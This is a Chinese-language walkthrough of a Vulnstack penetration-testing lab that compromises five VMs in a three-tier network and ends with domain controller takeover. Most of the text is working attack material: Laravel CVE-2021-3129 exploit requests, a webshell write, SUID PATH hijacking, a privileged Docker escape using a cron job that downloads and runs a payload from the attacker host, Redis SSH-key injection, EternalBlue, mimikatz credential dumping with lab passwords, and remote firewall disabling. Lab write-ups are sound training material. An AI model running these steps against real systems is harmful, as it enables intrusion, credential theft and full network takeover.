http://vulnstack.qiyuanxuetang.net/vuln/detail/9/

wp:https://www.freebuf.com/articles/network/264560.html

# 零、涉及知识

```python
信息收集：
    端口扫描
    端口服务识别
漏洞利用：
    漏洞搜索与利用
    Laravel Debug mode RCE（CVE-2021-3129）漏洞利用
    Docker逃逸
    通达OA v11.3 漏洞利用
    Linux环境变量提权
    Redis 未授权访问漏洞
    Linux sudo权限提升（CVE-2021-3156）漏洞利用
    SSH密钥利用
    Windows NetLogon 域内权限提升（CVE-2020-1472）漏洞利用
    MS14-068漏洞利用
构建隧道：
    路由转发与代理
        二层网络代理
        三层网络代理
横向移动：
    内网（域内）信息收集
    MS17-010
    Windows系统NTLM与用户凭据获取
    SMB Relay攻击
    Psexec远控利用
    哈希传递攻击（PTH）
    WMI利用
    DCOM利用
权限维持：
    黄金票据
    白银票据
    Sid History
```

## 靶场环境配置

### （1）网络配置

整个靶场环境一共五个靶机（总共27.8 GB），分别位于三层网络环境中：


- DMZ区IP段为192.168.1.1/24
- 第二层网络环境IP段为192.168.52.1/24
- 第三层网络环境IP段为192.168.93.1/24

需要在Vmware中新增两个虚拟网卡VMnet8、VMnet14。VMnet8设为默认的NAT模式，IP段设为192.168.52.0/24；VMnet14设为仅主机模式，IP段设为192.168.93.0/24：



将VMnet8作为第二层网络的网卡，VMnet14作为第三层网络的网卡。这样，第二层网络中的所有主机皆可以上网，但是位于第三层网络中的所有主机都不与外网相连通，不能上网。

**DMZ区域：**

- 给Ubuntu (Web 1) 配置了两个网卡，一个桥接可以对外提供服务；一个连接在VMnet8上连通第二层网络。

**第二层网络区域：**

- 给Ubuntu (Web 2) 和Windows 7 (PC 1)都配置了两个网卡，一个连接在VMnet8上连通第二层网络，一个连接在VMnet14上连通第三层网络。

**第三次网络区域：**

- 给Windows Server 2012和Windows 7 (PC 2)都只配置了一个网卡，一个连接在VMnet14上连通第三层网络。

### （2）服务配置

靶场中各个主机都运行着相应的服务并且没有自启功能，如果你关闭了靶机，再次启动时还需要在相应的主机上启动靶机服务：

**DMZ区的 Ubuntu 需要启动Nginx和Redis服务：**

- redis-server /etc/redis.conf
- /usr/sbin/nginx -c /etc/nginx/nginx.conf
- iptables -F

**第二层网络的 Ubuntu需要启动Docker容器：**

- sudo service docker start
- sudo docker start 8e172820ac78

**第三层网络的 Windows 7（PC 1）需要启动通达OA：**

- C:\MYOA\bin\AutoConfig.exe

五台靶机及其上面的服务需要全部启动，缺一不可。不会很卡的放心吧，我这破电脑都没事。

## 外网渗透

假设渗透的目标客户只给出了一个域名：[www.whopen.com](https://www.freebuf.com/articles/network/www.whopen.com)，下面我们要在黑盒的情况下对目标网络进行渗透，最终需要拿下域控制器权限。

直接访问该域名，发现是一个博客的站点：



随便翻翻除了文章写得还不错以外没有发现什么，emmmm......

### 信息收集

首先得到目标网站的IP为192.168.1.8，然后直接对目标IP进行端口扫描：

nmap -T4 -sC -sV 192.168.1.8



如上图，目标除了80端口外还开启了22、81和6379端口。查看81端口：



发现是个Laravel的站点，Laravel是一套简洁、开源的PHP Web开发框架，旨在实现Web软件的MVC架构。

而在2021年01月12日，Laravel被披露存在一个远程代码执行漏洞（CVE-2021-3129）。当Laravel开启了Debug模式时，由于Laravel自带的Ignition 组件对file_get_contents()和file_put_contents()函数的不安全使用，攻击者可以通过发起恶意请求，构造恶意Log文件等方式触发Phar反序列化，最终造成远程代码执行。

目标站点的Laravel版本正好在今年刚爆出来的Laravel Debug mode RCE漏洞（CVE-2021-3129）的范围内，该漏洞的体用可以看我的这一篇文章：[《Laravel Debug mode RCE（CVE-2021-3129）漏洞复现》](https://whoamianony.top/2021/01/15/漏洞复现/Laravel/Laravel Debug mode RCE（CVE-2021-3129）利用复现/)，下面我们尝试进行初步的攻击。

### Laravel Debug mode RCE漏洞利用

（1）首先使用 [phpggc](https://github.com/ambionics/phpggc)工具生成一条laravel中存在的反序列化利用POC（经过编码后的）：

php -d "phar.readonly=0" ./phpggc Laravel/RCE5 "phpinfo();" --phar phar -o php://output | base64 -w 0 | python -c "import sys;print(''.join(['=' + hex(ord(i))[2:] + '=00' for i in sys.stdin.read()]).upper())"

得到的POC（编码后的）最后面再加一个a，否则最终laravel.log里面将生成两个POC，导致利用失败：



（2）发送如下数据包，将Laravel的原日志文件laravel.log清空：

POST /_ignition/execute-solution HTTP/1.1 Host: 192.168.1.8:81 Content-Type: application/json Content-Length: 328 {   "solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",   "parameters": {     "variableName": "username",     "viewFile": "php://filter/write=convert.iconv.utf-8.utf-16be|convert.quoted-printable-encode|convert.iconv.utf-16be.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log"   } }

（3）发送如下数据包，给Log增加一次前缀，用于对齐：

POST /_ignition/execute-solution HTTP/1.1 Host: 192.168.1.8:81 Content-Type: application/json Content-Length: 163 {   "solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",   "parameters": {     "variableName": "username",     "viewFile": "AA"   } }

（4）将之前生成的编码后的POC作为viewFile的值，发送数据包：

POST /_ignition/execute-solution HTTP/1.1 Host: 192.168.1.8:81 Content-Type: application/json Content-Length: 5058 {   "solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",   "parameters": {     "variableName": "username",     "viewFile": "=50=00=44=00=39=00=77=00=61=00=48=00=41=00=67=00=58=00=31=00=39=00=49=00=51=00=55=00=78=00=55=00=58=00=30=00=4E=00=50=00=54=00=56=00=42=00=4A=00=54=00=45=00=......2B=00=57=00=61=00=63=00=4E=00=67=00=49=00=41=00=41=00=41=00=42=00=48=00=51=00=6B=00=31=00=43=00a"   } }

（5）发送如下数据包，清空对log文件中的干扰字符，只留下POC：

POST /_ignition/execute-solution HTTP/1.1 Host: 192.168.1.8:81 Content-Type: application/json Content-Length: 299 {   "solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",   "parameters": {     "variableName": "username",     "viewFile": "php://filter/write=convert.quoted-printable-decode|convert.iconv.utf-16le.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log"   } }

这一步可能会出现异常，导致无法正确清理Log文件。如果出现这种状况，可以重新从第一步开始尝试。

（6）使用phar://进行反序列化，执行任意代码（此时需要使用绝对路径）：

POST /_ignition/execute-solution HTTP/1.1 Host: 192.168.1.8:81 Content-Type: application/json Content-Length: 210 {   "solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",   "parameters": {     "variableName": "username",     "viewFile": "phar:///var/www/storage/logs/laravel.log/test.txt"   } }

如下图所示，PHPINFO已成功执行，漏洞利用成功：



我们可以利用该漏洞写入Webshell：

php -d "phar.readonly=0" ./phpggc Laravel/RCE5 "system('echo PD9waHAgZXZhbCgkX1BPU1Rbd2hvYW1pXSk7Pz4=|base64 -d > /var/www/html/shell.php');" --phar phar -o php://output | base64 -w 0 | python -c "import sys;print(''.join(['=' + hex(ord(i))[2:] + '=00' for i in sys.stdin.read()]).upper())"

重复上述利用步骤后，成功写入webshell并连接成功：



我们在使用蚁剑执行命令时发现目标主机的主机名有点显眼，可能我们那下的shell处于一个容器环境：



使用如下命令进行测试，我们发现我们获得的shell确实运行在一个docker容器内：

cat /proc/self/cgroup



这样好吗，这样不好！下面我们需要docker逃逸来获取目标主机（docker宿主机）的权限。但此时我们所获得的是www-data用户的权限，权限比较低，干不成什么大事，所以要想办法提升一下权限。官方文档中提到了Linux环境变量提权，我们直接使用find命令来搜索具有SUID或4000权限的文件：

find / -perm -u=s -type f 2>/dev/null

通过执行上述命令，攻击者可以遍历任何可执行文件，在这里我们可以看到/home/jobs目录下有一个shell文件，这名字很显眼，并且其具有SUID权限：



于是我们cd到/home/jobs目录下，ls一下，确实看到了名为shell的可执行文件。我们运行一下这个文件：



可以看到shell文件执行了ps命令，并且未使用绝对路径，所以我们可以尝试更改$PATH来执行我们的恶意程序，从而获得目标主机的高权限shell。

首先使用蚁剑反弹一个shell过来，然后在shell中执行如下命令：

cd /tmp echo "/bin/bash" > ps chmod 777 ps echo $PATH  export PATH=/tmp:$PATH # 将/tmp添加到环境变量中，并且先加载执行/tmp里的程序 cd /home/jobs ./shell # 然后就获得了root权限，可以执行命令了



如上图所示，成功提升为root权限。

之后为了方便，我们可以使用msf生成一个木马，然后上传到目标主机上执行，来获得一个metasploit的meterpreter，具体步骤略。

### 利用Docker runC漏洞逃逸

该漏洞（CVE-2019-5736）是2019年爆出的。在Docker 18.09.2之前的版本中使用的runc版本小于1.0-rc6，其允许攻击者重写宿主机上的runc 二进制文件，攻击者可以在宿主机上以root身份执行命令。

利用该漏洞需要满足以下两个条件之一：

由一个攻击者控制的恶意镜像创建

攻击者具有某已存在容器的写权限，且可通过docker exec进入。

首先下载攻击脚本： https://github.com/Frichetten/CVE-2019-5736-PoC

打开main.go脚本，将脚本中要在目标机上执行的命令修改为反弹shell的命令，IP为攻击机IP，端口为攻击机监听的端口：



执行命令编译生成payload

CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build main.go

将生成的利用程序main上传到目标主机并赋予权限：



接着在攻击机kali上面启动nc监听：

nc -lvp 2333

接着在目标docker上面运行main文件：



此时，只需等待目标机管理员重启该docker容器，payload就会触发。但是由于某些原因，我们手动重启docker后并未收到目标主机的shell。所以我们只能用另一种方法来逃逸。

### Docker 特权模式逃逸

特权模式于版本0.6时被引入Docker，允许容器内的root拥有外部物理机root权限，而此前容器内root用户仅拥有外部物理机普通用户权限。

使用特权模式启动容器，可以获取大量设备文件访问权限。因为当管理员执行docker run —privileged时，Docker容器将被允许访问主机上的所有设备，并可以执行mount命令进行挂载。

当控制使用特权模式启动的容器时，docker管理员可通过mount命令将外部宿主机磁盘设备挂载进容器内部，获取对整个宿主机的文件读写权限，此外还可以通过写入计划任务等方式在宿主机执行命令。

首先我们现在docker中新建一个/hack目录用来挂在文件：

mkdir /hack



然后ls /dev看到/dev目录会发现很多设备文件，



我们可以尝试将 /dev/sda1 挂载到/hack目录里：

mount /dev/sda1 /hack



如上图所示挂载成功了，此时我们就可以通过访问容器内部的/hack路径来达到访问整个宿主机的目的

**在docker容器里挂载一个宿主的本地目录，这样某些容器里输出的文件，就可以在本地目录中打开访问了。**

我们可以通过写入计划任务的方式在宿主机执行metasploit生成的命令。

首先使用metasploit的web_delivery模块生成payload命令：

use exploit/multi/script/web_delivery set target 6    # 选择目标系统 set payload linux/x64/meterpreter/reverse_tcp set lhost 192.168.1.7 set lport 4444 exploit



如上图，只要将生成的命令再目标主机上执行，便可以得到目标主机的meterpreter。我们将该命令写入宿主机的计划任务中：

echo '* * * * * wget -qO KdwGEmVm --no-check-certificate http://192.168.1.7:8080/kvMOwncGb; chmod +x KdwGEmVm; ./KdwGEmVm& disown' >> /hack/var/spool/cron/crontabs/root

如下图，宿主机上线meterpreter：



信息收集可得其系统版本为Ubuntu 14.04。

可怪事来了，我们查看了目标宿主机的网络配置后，仅发现了两个内网的网段“192.168.52.1/24”和“192.168.93.1/24”：



那我们访问的192.168.1.8去哪了？

难道目标网站做了反向代理？先别慌，6379端口不是还有一个redis吗，试试存不存在未授权访问吧。

直接在攻击机上连接192.168.1.8:6379上的redis，竟然成功了，毕竟是靶机，就是简单：



有了redis未授权，那么利用就简单了，我们直接往目标主机上写入SSH公钥。

先在攻击机上生成ssh公钥：

ssh-keygen -t rsa



然后将公钥导入key.txt文件(前后用\n换行，避免和Redis里其他缓存数据混合)，再把key.txt文件内容写入目标主机的redis缓冲里：

(echo -e "\n\n"; cat /root/.ssh/id_rsa.pub; echo -e "\n\n") > key.txt cat key.txt | redis-cli -h 192.168.1.8 -x set xxx // -x 代表从标准输入读取数据作为该命令的最后一个参数。



然后使用攻击机连接目标机器Redis，分别执行如下命令将ssh公钥写入目标主机：

config set dir /root/.ssh    # 设置redis的备份路径为/root/.ssh/ config set dbfilename authorized_keys    # 设置保存文件名为authorized_keys save    # 将数据保存在目标服务器硬盘上



写入成功后直接尝试连接：

ssh 192.168.1.8



成功连接目标主机。此时查看目标机网络信息，却发现目标主机的网络连接信息全变了，并且发现了我们刚开始访问的“192.168.1.8”，还有另一个内网IP段“192.168.52.1/24”：



系统发行版本也变为了Ubuntu 18.04.5：



看来目标网站应该是做了反向代理了，也就是说此时拿下的Ubuntu 18主机仅仅提供一个代理服务，真正的Web服务器是之前我们拿下的那台宿主机Ubuntu 14主机。为了证实我们的猜想，我查看了Ubuntu 18上的nginx配置文件：



如上图我们发现了nginx反向代理的标志——“proxy_pass”，可知Ubuntu 18服务器上的nginx把80端口上收到的请求转发给了 https://whoamianony.top，将81端口上收到的请求转发给了内网第二层网络的Web服务器192.168.52.20，也就是我们之前Getshell的宿主机Ubuntu 14。

好了，到目前为止我们已经拿下了两台主机：

DMZ区域的Ubuntu 18：192.168.1.8

第二层网络的Ubuntu 14：192.168.52.20



此时，绘制出网络拓扑图如下：



## 内网渗透

### 第二层网络渗透

在DMZ区域Ubuntu 18的meterpreter中添加一个通往192.168.52.1/24网段的路由：



路由转发只能将msfconsole带进内网，而要想将攻击机上的其他攻击程序也带进内网还需要搭建socks代理。我们使用earthworm搭建socks5反向代理服务。

在攻击机上执行如下：

./ew_for_linux64 -s rcsocks -l 1080 -e 1234

在DMZ区域的Ubuntu 18上传ew_for_linux64，并执行如下命令：

./ew_for_linux64 -s rssocks -d 192.168.1.7 -e 1234



然后配置proxychains，将socks5服务器指向127.0.0.1:1080，之后便可以使用proxychains将我们攻击机上的程序代理进第二层网络（192.168.52.1/24）了。

接着，我们使用metasploit的 auxiliary/scanner/discovery/udp_probe 模块来扫描第二层网络中的主机存活：

use auxiliary/scanner/discovery/udp_probe set rhosts 192.168.52.1-255 set threads 5 run



如上图，发现第二层网络中还有一个主机（192.168.52.30），使用nmap进一步扫描该主机的信息：

proxychains4 nmap -Pn -sT -sV -F -O 192.168.52.30



是一台Windows主机，并且该Windows主机的8080端口上有一个nginx的http服务，在攻击机的浏览器上设置好代理后，成功访问：





是个通达OA，经测试其版本为通达OA V11.3，该版本存在任意用户登录、文件包含和文件上传等多个漏洞。具体漏洞详情可参考：https://blog.csdn.net/szgyunyun/article/details/107104288

下面我们来利用这些漏洞执行命令。首先上传图片马：



如上图上传成功，2102是文件夹名，1811843809|shell.jpg是文件名，要把 | 修改成点。然后利用文件包含漏洞，发送如下请求：

POST /ispirit/interface/gateway.php HTTP/1.1 Host: 192.168.52.30:8080 Connection: keep-alive Accept-Encoding: gzip, deflate Accept: */* User-Agent: python-requests/2.21.0 Content-Length: 69 Content-Type: application/x-www-form-urlencoded json={"url":"/general/../../attach/im/2102/1811843809.shell.jpg"}&cmd=whoami



如上图所示，成功执行命令。

之后就是常规操作了，使用metasploit的web_delivery模块生成powershell类型的payload，直接在目标机上执行即可拿下该Windows服务器：



此时，绘制出网络拓扑图如下：



### 内网信息收集

拿下第二层网络中的Windows 7服务器后，接下来我们对目标内网环境进行信息收集，对目标网络有一个初步的了解：

ipconfig /all   # 查看本机ip，所在域 systeminfo      # 列出系统信息 route print     # 打印路由信息 net view        # 查看局域网内其他主机名 arp -a          # 查看arp缓存 whoami net start       # 查看开启了哪些服务 net share       # 查看开启了哪些共享 net config workstation   # 查看计算机名、全名、用户名、系统版本、工作站、域、登录域 net user                 # 查看本机用户列表 net user /domain         # 查看域用户 net localgroup administrators   # 查看本地管理员组（通常会有域用户） net view /domain         # 查看有几个域 net user 用户名 /domain   # 获取指定域用户的信息 net group /domain        # 查看域里面的工作组，查看把用户分了多少组（只能在域控上操作） net group 组名 /domain    # 查看域中某工作组 net group "domain admins" /domain  # 查看域管理员的名字 net group "domain computers" /domain  # 查看域中的其他主机名 net group "domain controllers" /domain  # 查看域控制器（可能有多台）







综合上面收集的信息，我们可知，目标网络环境存在一个名为whoamianony.org的域环境，域控制器主机名为DC.whoamianony.org，IP为192.168.93.30，域管理员为Administrator。

### 抓取域用户密码

接着，我们使用meterpreter上的kiwi模块尝试抓取域用户及域管理员的密码：

load kiwi kiwi_cmd privilege::debug kiwi_cmd sekurlsa::logonPasswords





成功抓取到域用户bunny和域管理员administrator的凭证：

bunny：Bunny2021

administrator：Whoami2021

### 第三层网络渗透

现在第二层网络已经渗透完了，我们继续入侵第三层网络（192.168.93.1/24）。

在第二层网络Windows服务器的meterpreter中添加一个通往192.168.93.1/24网段的路由：



路由转发只能将msfconsole带进内网，而要想将攻击机上的其他攻击程序也带进内网还需要搭建socks代理。我们使用earthworm搭建一个二级socks5代理服务。

首先攻击机上执行如下命令添加一个转接隧道，监听1090端口，并将1090端口收到的代理请求发送给1235端口，执行命令：

./ew_for_linux64 -s lcx_listen -l 1090 -e 1235

然后在第二层网络的Windows服务器上传ew_for_Win.exe，并利用ssocksd方式启动999端口的正向socks代理，执行命令：

ew_for_Win.exe -s ssocksd -l 999

最后，在DMZ区域的Ubuntu 18上传ew_for_linux64并利用lcx_slave方式，将攻击机的1235端口与第二层网络Windows 7的999端口连接起来，执行命令：

./ew_for_linux64 -s lcx_slave -d 192.168.1.7 -e 1235 -f 192.168.52.30 -g 999



然后配置proxychains：



此时，就可以设置proxychains等代理工具，通过访问攻击机的1090端口来使用架设在第二层网络Windows主机上的socks代理服务，来进入第三层网络了。

在第二层网络Windows主机上执行ping命令扫描第三层网络中

接着，我们使用metasploit的 auxiliary/scanner/smb/smb_version 模块（可用来探测Windows主机存活）来扫描第三层网络中的主机存活：

use auxiliary/scanner/smb/smb_version set rhosts 192.168.93.1-255 set threads 5 run



如上图，发现第三层网络中还有两个Windows主机，分别为DC（192.168.93.30）和PC2（192.168.93.40），使用nmap进一步扫描PC2主机信息：

proxychains4 nmap -Pn -sT -sV 192.168.52.40

没发现什么有用的服务，我们直接打一个“永恒之蓝”试试：

setg Proxies socks5:127.0.0.1:1090 use exploit/windows/smb/ms17_010_eternalblue set rhosts 192.168.93.40 set payload windows/x64/meterpreter/bind_tcp set rhost 192.168.93.40 set lport 4444 exploit

好家伙！真不容易。这次竟然成功了：



第四台靶机拿下：



此时，绘制出网络拓扑图如下：



## 进攻域控

现在就剩下域控制器DC了。既然都抓取到域管理员的密码了，那我们直接psexec登陆就得了：

use exploit/windows/smb/psexec set rhosts 192.168.93.30 set SMBUser administrator set SMBPass Whoami2021 set payload windows/meterpreter/bind_tcp set rhost 192.168.93.30 run



失败了，应该是开了防火墙的原因。

没关系，我们已经有了域控的密码了，就可以控制第二层网络的Windows 7远程关闭域控的防火墙了。首先控制第二层网络的Windows 7与域控建立ipc连接：

net use \\192.168.93.30\ipc$ "Whoami2021" /user:"Administrator"



然后执行如下命令，使用sc远程在域制器（192.168.93.30）上创建服务关闭防火墙：

sc \\192.168.93.30 create unablefirewall binpath= "netsh advfirewall set allprofiles state off" sc \\192.168.93.30 start unablefirewall



再次尝试执行 exploit/windows/smb/psexec 模块即可成功登录：



成功拿下域控：



到现在为止，三层网络结构中的五台主机已经全部拿下了：



途中session断了好几次，差点气的吐血。

## 权限维持

太晚了，持久化就先不写了。。。保命要紧！